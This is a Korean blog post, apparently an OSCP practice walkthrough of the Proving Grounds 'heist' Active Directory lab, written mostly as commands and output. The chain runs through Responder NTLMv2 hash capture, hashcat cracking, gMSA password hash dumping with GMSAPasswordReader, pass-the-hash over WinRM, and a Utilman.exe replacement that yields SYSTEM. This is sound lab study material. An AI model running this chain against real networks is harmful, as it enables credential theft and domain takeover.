






---
layout: post
title:  "[PG][AD] heist"
date:   2026-11-08 12:00:00 +09:00
featured: /assets/images/oscp-pg/ad/heist/image.png
categories: PG AD
---포트 스캔을 수행했다
```
└─$ nmap 192.168.148.165 -Pn -n --min-rate 3000 --open -oN scan
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-28 05:26 EDT
Nmap scan report for 192.168.148.165
Host is up (0.088s latency).
Not shown: 986 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 1.11 seconds
```

SMB 익명 및 게스트 계정 접근 차단
```
└─$ smbclient -L //192.168.148.165 -N -m SMB2
session setup failed: NT_STATUS_ACCESS_DENIED


└─$ crackmapexec smb 192.168.148.165 -u 'guest' -p '' --shares
SMB         192.168.148.165 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:heist.offsec) (signing:True) (SMBv1:False)
SMB         192.168.148.165 445    DC01             [-] heist.offsec\guest: STATUS_ACCOUNT_DISABLED
```

익명 LDAP Bind는 허용되지만, 익명으로 모든 객체를 조회하는 것은 막혀있음
```
└─$ ldapsearch -x -H ldap://192.168.148.165:389 -b "dc=heist,dc=offsec"
# extended LDIF
#
# LDAPv3
# base <dc=heist,dc=offsec> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A5C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563

# numResponses: 1
```

8080포트 웹으로 접속해도 아무런 취약점을 찾을수 없음



```
└─$ sudo responder -I tun0 -wv
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|


[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [ATTACKER_IP]
    Responder IPv6             [fe80::95be:8d2c:b398:9db1]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-GU9B0J14DG0]
    Responder Domain Name      [SAP8.LOCAL]
    Responder DCE-RPC Port     [45216]

[*] Version: Responder 3.1.7.0
[*] Author: Laurent Gaffie, <lgaffie@secorizon.com>
[*] To sponsor Responder: https://paypal.me/PythonResponder

[+] Listening for events...                                                                            

[HTTP] Sending NTLM authentication request to 192.168.148.165
[HTTP] GET request from: ::ffff:192.168.148.165  URL: / 
[HTTP] NTLMv2 Client   : 192.168.148.165
[HTTP] NTLMv2 Username : HEIST\enox
[HTTP] NTLMv2 Hash     : enox::HEIST:dd82fee2716b238d:F56841B836B9E60440BFFE777BD6656E:010100000000000088571F457C1EDD01FBE6F76CD4E3882F0000000002000800530041005000380001001E00570049004E002D00470055003900420030004A00310034004400470030000400140053004100500038002E004C004F00430041004C0003003400570049004E002D00470055003900420030004A00310034004400470030002E0053004100500038002E004C004F00430041004C000500140053004100500038002E004C004F00430041004C00080030003000000000000000000000000030000098BF0D68BEA36AC69F27F02B4B5580B35A970EAA12F2C2D466BA29E944A8C58C0A001000000000000000000000000000000000000900260048005400540050002F003100390032002E003100360038002E00340035002E003200340032000000000000000000
```


```
└─$ hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-haswell-13th Gen Intel(R) Core(TM) i5-1340P, 3200/6464 MB (1024 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

ENOX::HEIST:dd82fee2716b238d:f56841b836b9e60440bffe777bd6656e:010100000000000088571f457c1edd01fbe6f76cd4e3882f0000000002000800530041005000380001001e00570049004e002d00470055003900420030004a00310034004400470030000400140053004100500038002e004c004f00430041004c0003003400570049004e002d00470055003900420030004a00310034004400470030002e0053004100500038002e004c004f00430041004c000500140053004100500038002e004c004f00430041004c00080030003000000000000000000000000030000098bf0d68bea36ac69f27f02b4b5580b35a970eaa12f2c2d466ba29e944a8c58c0a001000000000000000000000000000000000000900260048005400540050002f003100390032002e003100360038002e00340035002e003200340032000000000000000000:california
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: ENOX::HEIST:dd82fee2716b238d:f56841b836b9e60440bffe...000000
Time.Started.....: Tue Jul 28 06:42:27 2026 (1 sec)
Time.Estimated...: Tue Jul 28 06:42:28 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    42472 H/s (1.85ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1024/14344385 (0.01%)
Rejected.........: 0/1024 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> bethany
Hardware.Mon.#1..: Util: 49%

Started: Tue Jul 28 06:42:26 2026
Stopped: Tue Jul 28 06:42:29 2026
```

```
└─$ crackmapexec winrm 192.168.148.165 -d heist.offsec -u enox -p california -x "whoami"
HTTP        192.168.148.165 5985   192.168.148.165  [*] http://192.168.148.165:5985/wsman
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       192.168.148.165 5985   192.168.148.165  [+] heist.offsec\enox:california (Pwn3d!)
WINRM       192.168.148.165 5985   192.168.148.165  [+] Executed command
WINRM       192.168.148.165 5985   192.168.148.165  heist\enox
```

enox의 그룹 권한 Web Admins으로 확인
```
*Evil-WinRM* PS C:\Users\enox\Documents> net user enox
User name                    enox
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/31/2021 6:09:05 AM
Password expires             Never
Password changeable          9/1/2021 6:09:05 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/22/2025 9:54:16 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Web Admins           *Domain Users
The command completed successfully.
```

블러드하운드로 AD 환경 매핑 시도
```
└─$ bloodhound-python -u enox -p california -ns 192.168.192.165 -d heist.offsec -c all
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: heist.offsec
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc01.heist.offsec:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc01.heist.offsec
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.heist.offsec
INFO: Found 6 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.heist.offsec
INFO: Done in 00M 19S
```

svc_apache 서비스 계정이 GMSA 암호를 볼 수 있으므로 그룹 관리 서비스 계정(gMSA)으로 확인


GMSA 활성화된 서비스 계정 확인(svc_apache)
```
*Evil-WinRM* PS C:\Users\enox\Documents> Get-ADServiceAccount -Filter * | where-object {$_.ObjectClass -eq “msDS-GroupManagedServiceAccount”}


DistinguishedName : CN=svc_apache,CN=Managed Service Accounts,DC=heist,DC=offsec
Enabled           : True
Name              : svc_apache
ObjectClass       : msDS-GroupManagedServiceAccount
ObjectGUID        : d40bc264-0c4e-4b86-b3b9-b775995ba303
SamAccountName    : svc_apache$
SID               : S-1-5-21-537427935-490066102-1511301751-1105
UserPrincipalName :
```

svc_apache의 gMSA 비밀번호 조회 그룹 확인
```
*Evil-WinRM* PS C:\Users\enox\Documents> . .\PowerView.ps1
*Evil-WinRM* PS C:\Users\enox\Documents> Get-ADServiceAccount -Filter {name -eq 'svc_apache'} -Properties * | Select CN,DNSHostName,DistinguishedName,MemberOf,PrincipalsAllowedToRetrieveManagedPassword


CN                                         : svc_apache
DNSHostName                                : DC01.heist.offsec
DistinguishedName                          : CN=svc_apache,CN=Managed Service Accounts,DC=heist,DC=offsec
MemberOf                                   : {CN=Remote Management Users,CN=Builtin,DC=heist,DC=offsec}
PrincipalsAllowedToRetrieveManagedPassword : {CN=DC01,OU=Domain Controllers,DC=heist,DC=offsec, CN=Web Admins,CN=Users,DC=heist,DC=offsec}
```

사용자 enox가 Web Admins 그룹에 속해 있는지 확인
```
*Evil-WinRM* PS C:\Users\enox\Documents> Get-ADGroupMember 'Web Admins'


distinguishedName : CN=Naqi,CN=Users,DC=heist,DC=offsec
name              : Naqi
objectClass       : user
objectGUID        : 82c847e5-1db7-4c00-8b06-882efb4efc6f
SamAccountName    : enox
SID               : S-1-5-21-537427935-490066102-1511301751-1103
```

gMSA password extraction tool github 구글 검색


아래 URL에서 exe파일 다운로드
https://github.com/expl0itabl3/Toolies


GMSAPasswordReader 툴을 이용해 NTLM 해시값이 출력
```
*Evil-WinRM* PS C:\Users\enox\Documents> .\GMSAPasswordReader.exe --accountname svc_apache
Calculating hashes for Old Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 76A431E264CA606C0ADE543F59B7A470
[*]       aes128_cts_hmac_sha1 : B7DB7F6148D4DD3C7B101F7C1F846CDE
[*]       aes256_cts_hmac_sha1 : 7D529FCF364669301FA43E8040F5655F459D39847A305BA76BC8040C0B94217D
[*]       des_cbc_md5          : 83E6F249922FE04C

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 1169A68C02B287C7D88CE7E512ACBEE7
[*]       aes128_cts_hmac_sha1 : 09031AC750BFBC207B3E632A7E943997
[*]       aes256_cts_hmac_sha1 : C208DD99CEB0C33EAC6EA7A911B461A595DE3EEC04296E18F6875DD1D9DE167C
[*]       des_cbc_md5          : 57F107139B9EF779
```

해시값으로 시스템에 접속
```
┌──(kali㉿kali)-[~/Desktop/pg/ad/heist]
└─$ evil-winrm -i 192.168.192.165 -u svc_apache$ -H 1169A68C02B287C7D88CE7E512ACBEE7
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline                                                                              
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                         
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_apache$\Documents>
```

SeRestorePrivilege권한 활성화 화인
```
*Evil-WinRM* PS C:\Users\svc_apache$\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

hacktrick 사이트에서 SeRestorePrivilege권한으로 권한 상승 방법 확인
https://hacktricks.wiki/ko/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html?highlight=SeRestorePrivilege#serestoreprivilege


cmd.exe를 Utilman.exe로 변조
```
*Evil-WinRM* PS C:\Windows\system32> ren Utilman.exe Utilman.old
*Evil-WinRM* PS C:\Windows\system32> ren cmd.exe Utilman.exe
```

kali에서 rdesktop 실행.
```
┌──(kali㉿kali)-[~/Desktop/pg/ad/heist]
└─$ rdesktop 192.168.192.165
```

RDP 세션 로그인 페이지에서 "Windows + U" 키를 누른 후 NT authority/system 권한으로 CMD 세션을 실행 한귀 proof.txt파일 획득


